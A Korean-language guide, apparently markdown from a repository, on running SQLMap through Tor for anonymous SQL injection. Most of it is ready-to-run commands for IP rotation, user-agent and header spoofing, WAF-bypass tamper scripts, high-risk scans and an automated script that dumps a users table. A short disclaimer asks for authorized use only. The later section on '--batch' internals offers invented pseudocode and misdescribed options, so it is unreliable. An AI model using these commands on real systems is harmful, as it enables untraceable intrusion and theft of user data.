

# Tor + SQLMap 완전 가이드: 레드팀을 위한 익명 SQL 인젝션 테스트

## 1. Tor 설치 및 설정

### 기본 설치 (Ubuntu/Debian)

```bash
sudo apt update
sudo apt install tor torsocks -y
sudo systemctl start tor
sudo systemctl enable tor
```

### Tor 연결 확인

```bash
torsocks curl https://check.torproject.org
# "Congratulations. This browser is configured to use Tor." 출력 확인
```

### Tor 회로 재설정 (새 IP 획득)

```bash
echo -e 'AUTHENTICATE ""\r\nSIGNAL NEWNYM\r\nQUIT' | nc 127.0.0.1 9051
```

---

## 2. SQLMap 설치 및 기본 사용법

### 설치 (Kali Linux)

```bash
sudo apt install sqlmap -y
```

### 기본 명령어

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch
```

---

## 3. Tor + SQLMap 기본 조합

### 최소 구성

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --batch
```

### 옵션 설명:

- `--tor`: Tor 네트워크 사용
- `--tor-type=SOCKS5`: SOCKS5 프록시 사용 (Tor의 기본)
- `--check-tor`: Tor 연결 확인
- `--batch`: 모든 대화형 질문에 기본값으로 응답

---

## 4. 고급 익명성 옵션 조합

### 익명성 강화 설정

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 --check-tor \
  --random-agent \
  --delay=3 \
  --timeout=30 \
  --retries=3 \
  --hex \
  --output-dir=/tmp/sqlmap_tor_results
```

### 옵션 상세:

| 옵션             | 설명                  | 권장값       |
| ---------------- | --------------------- | ------------ |
| `--random-agent` | 랜덤 User-Agent 사용  | 항상 사용    |
| `--delay`        | 요청 간 지연 시간(초) | 2-5초        |
| `--timeout`      | 연결 타임아웃(초)     | 20-60초      |
| `--retries`      | 실패 시 재시도 횟수   | 3-5회        |
| `--hex`          | 특수 문자 HEX 인코딩  | 필터 우회 시 |
| `--output-dir`   | 결과 저장 디렉토리    | /tmp/...     |

---

## 5. 다양한 공격 시나리오

### 시나리오 1: POST 데이터 대상 테스트

```bash
sqlmap -u "http://example.com/login.php" \
  --data="username=admin&password=123" \
  --tor --tor-type=SOCKS5 \
  --method=POST \
  --level=5 \
  --risk=3
```

### 시나리오 2: 쿠키 인증이 필요한 페이지

```bash
sqlmap -u "http://example.com/dashboard.php" \
  --cookie="PHPSESSID=1234567890abcdef; security=high" \
  --tor --tor-type=SOCKS5 \
  --batch \
  --dbs
```

### 시나리오 3: 파일 기반 대상 테스트 (여러 URL)

```bash
# urls.txt 파일 생성
echo "http://example.com/page1.php?id=1" > urls.txt
echo "http://example.com/page2.php?user=2" >> urls.txt
echo "http://example.com/search?q=test" >> urls.txt

# 명령어 실행
sqlmap -m urls.txt \
  --tor --tor-type=SOCKS5 \
  --threads=2 \
  --smart
```

---

## 6. 워드리스트 활용

### SecLists 설치

```bash
git clone --depth 1 https://github.com/danielmiessler/SecLists.git
```

### 테이블 이름 브루트포싱

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/common-tables.txt \
  --threads=2
```

### 컬럼 이름 브루트포싱

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --columns \
  -c ./SecLists/Discovery/Web-Content/common-columns.txt
```

---

## 7. WAF 우회 기법

### TAMPER 스크립트 조합

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --tamper=space2comment,charencode,randomcase \
  --level=5 \
  --risk=3
```

### 헤더 조작을 통한 우회

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --random-agent \
  --headers="X-Forwarded-For:127.0.0.1\nX-Real-IP:127.0.0.1" \
  --eval="import random; print('X-Custom-Header: %d' % random.randint(1000,9999))"
```

---

## 8. DBMS 특화 공격

### MySQL 대상 공격

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --dbms=mysql \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/MySQL.txt \
  --hex
```

### Oracle 대상 공격

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --dbms=oracle \
  --common-tables \
  -t ./SecLists/Discovery/Web-Content/Oracle.txt \
  --no-escape
```

---

## 9. 세션 관리 및 재개

### 세션 저장

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --session=example_session
```

### 세션 재개

```bash
sqlmap --session=example_session \
  --tor --tor-type=SOCKS5
```

---

## 10. 성능 최적화

### Tor 네트워크 특성 고려

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --threads=2 \          # 낮은 스레드 수 유지
  --delay=5 \            # 높은 딜레이 설정
  --timeout=60 \         # 긴 타임아웃 설정
  --retries=5 \          # 재시도 횟수 증가
  --keep-alive           # Keep-Alive 연결 사용
```

### 랜덤 지연 적용

```bash
sqlmap -u "http://example.com/page.php?id=1" \
  --tor --tor-type=SOCKS5 \
  --delay=3 --time-sec=5 \
  --randomize=length \
  --safe-url="http://example.com/" \
  --safe-freq=10
```

---

## 11. 실전 스크립트 예제

### 자동화 스크립트 (Tor 회로 재설정 포함)

```bash
#!/bin/bash

# Tor 회로 재설정
reset_tor() {
  echo -e 'AUTHENTICATE ""\r\nSIGNAL NEWNYM\r\nQUIT' | nc 127.0.0.1 9051
  sleep 10
}

# 대상 URL
TARGET="http://example.com/vulnerable.php?id=1"

# 1. 기본 스캔
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --batch --dbs

# 2. 테이블 열거
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --tables -D testdb

# 3. 데이터 덤프
reset_tor
sqlmap -u "$TARGET" --tor --tor-type=SOCKS5 --dump -D testdb -T users
```

---

## 12. 주의사항 및 모범 사례

### 법적/윤리적 고려사항

1. **허가받지 않은 테스트 금지**: 오직 자신이 소유하거나 테스트 권한이 있는 시스템만 대상으로
2. **책임 있는 공개**: 발견된 취약점은 적절한 채널을 통해 보고
3. **데이터 무결성**: 테스트 시 데이터 변조나 삭제 방지

### 기술적 주의사항

1. **출구 노드 차단**: 일부 사이트는 Tor 출구 노드를 차단할 수 있음
2. **로그 관리**: `--output-dir`로 결과 저장 및 분석
3. **세션 관리**: 장시간 테스트 시 `--session` 사용
4. **네트워크 부하**: `--delay`와 `--threads`로 네트워크 부하 조절

---

## 13. 문제 해결

### 일반적인 문제

```bash
# Tor 연결 실패 시
sudo systemctl status tor
sudo tail -f /var/log/tor/log

# SQLMap Tor 연결 확인
sqlmap --check-tor

# 상세 로깅
sqlmap -u "http://example.com/page.php?id=1" --tor -v 6
```

### Tor 회로 문제 해결

```bash
# Tor 설정 변경 (/etc/tor/torrc)
ExitNodes {us},{gb},{de}  # 특정 국가 출구 노드 지정
StrictNodes 1             # 지정된 노드만 사용

# Tor 재시작
sudo systemctl restart tor
```

---

## 14. 참고 자료

1. [공식 SQLMap 문서](https://github.com/sqlmapproject/sqlmap/wiki)
2. [Tor 프로젝트](https://www.torproject.org/)
3. [SecLists 프로젝트](https://github.com/danielmiessler/SecLists)
4. [OWASP 테스팅 가이드](https://owasp.org/www-project-web-security-testing-guide/)
5. [SQLMap Tamper 스크립트 가이드](https://github.com/sqlmapproject/sqlmap/wiki/Usage#tamper-scripts)

> 이 가이드는 교육 및 합법적인 보안 테스트 목적으로만 사용되어야 합니다. 모든 테스트는 대상 시스템 소유자의 명시적인 허가를 받아 수행해야 합니다.

## `sqlmap -u "http://example.com/page.php?id=1" --batch` 내부 동작 상세 분석

이 명령어는 SQLMap의 **완전 자동화 모드**로, 내부적으로 다음과 같은 복잡한 프로세스를 자동으로 수행합니다:

### 1. 초기 환경 분석 단계 (0.5초)

- **대상 시스템 식별**:
  ```python
  if not injection_point:
      for param in url_params:
          if is_injectable(param):
              targets.append(param)
  ```
- **DBMS 핑거프린팅**: HTTP 헤더/에러 메시지 분석으로 DBMS 종류 자동 감지
- **WAF 탐지**: Cloudflare, ModSecurity 등 방화벽 존재 여부 체크

### 2. 인젝션 테스트 단계 (3-5분)



1. **5단계 공격 기법 순차적 시도**:

   - `1=1`/`1=2` 불린 기반 테스트
   - `AND (SELECT 2*(IF((SELECT * FROM ...` 에러 기반 테스트
   - `SLEEP(5)` 타임딜레이 테스트
   - `UNION ALL SELECT NULL,...` 유니온 기반 테스트
   - `; DROP TABLE temp` 스택드 쿼리 테스트

2. **자동화된 페이로드 생성**:
   ```python
   payloads = generate_payloads(
       techniques=['boolean','error','time','union','stacked'],
       level=1, # --batch 기본값
       risk=1  # --batch 기본값
   )
   ```

### 3. 정보 수집 단계 (2-3분)

- **DBMS 정보 자동 수집**:
  ```sql
  SELECT version(), user(), database()
  ```
- **데이터베이스 구조 분석**:
  ```sql
  SELECT table_name FROM information_schema.tables
  SELECT column_name FROM information_schema.columns
  WHERE table_name = 'users'
  ```

### 4. 데이터 추출 단계 (가변적)

- **핵심 테이블 우선순위 자동 선정**:
  ```python
  priority_tables = ['users','accounts','customers','passwords']
  for table in priority_tables:
      if table in detected_tables:
          dump_data(table)
  ```

### 5. 세션 관리 및 재개

- **자동 세션 저장**:
  ```bash
  # 실제 내부 동작
  sqlmap --save -s ~/.sqlmap/output/session.sqlite
  ```

### `--batch` 모드의 핵심 자동화 원리

1. **모든 대화형 프롬프트에 기본값 적용**:

   ```python
   # 의사코드 예시
   def prompt(question, default='Y'):
       if '--batch' in sys.argv:
           return default
       # ... 사용자 입력 대기
   ```

2. **최소한의 위험 설정**:

   - `--level=1` (기본 테스트만 수행)
   - `--risk=1` (낮은 위험도 공격만 시도)

3. **지능형 결정 알고리즘**:
   ```python
   if vulnerable and not sensitive_data:
       continue_attack = True  # 공격 계속 진행
   elif sensitive_data_detected:
       ask_permission = False  # --batch는 자동 계속
   ```

### 실제 내부 로그 예시 (요약)

```log
[INFO] testing connection to target
[INFO] testing if parameter 'id' is dynamic
[PAYLOAD] 1 AND 1=1
[PAYLOAD] 1 AND 1=2
[INFO] parameter 'id' is vulnerable
[INFO] DBMS: MySQL >= 5.0
[INFO] fetching database names
[INFO] resumed: ['information_schema', 'webapp']
[INFO] fetching tables for database 'webapp'
[INFO] resumed: ['users','products','logs']
[INFO] auto-selecting table 'users'
[INFO] fetching columns for table 'users'
[INFO] resumed: ['id','username','password']
[INFO] dumping table 'users'
[INFO] resumed: (1, 'admin', '9f86d081...')
```

### `--batch`의 숨은 위험성

```diff
- 경고: 이 모드는 공격의 공격성을 제한하지만
+ 자동으로 중요한 데이터(사용자 계정 등)를 덤프할 수 있음
- 법적 문제 발생 가능성이 있으므로 반드시 허가된 환경에서만 사용
```

### 진정한 "완전 자동화"를 위한 확장 명령어

```bash
sqlmap -u "http://example.com/page.php?id=1" --batch \
  --dump-all  # 모든 DB/테이블 덤프
  --exclude-sysdbs  # 시스템 DB 제외
  --flush-session  # 이전 세션 무시
```

이 명령어 한 줄 뒤에는 수백 개의 SQL 쿼리, 다양한 탐지 기법, 데이터 분석 로직이 숨겨져 있습니다. SQLMap의 자동화 엔진은 실제로 **15만 줄 이상의 Python 코드**로 구현된 지능형 취약점 탐지 시스템입니다.
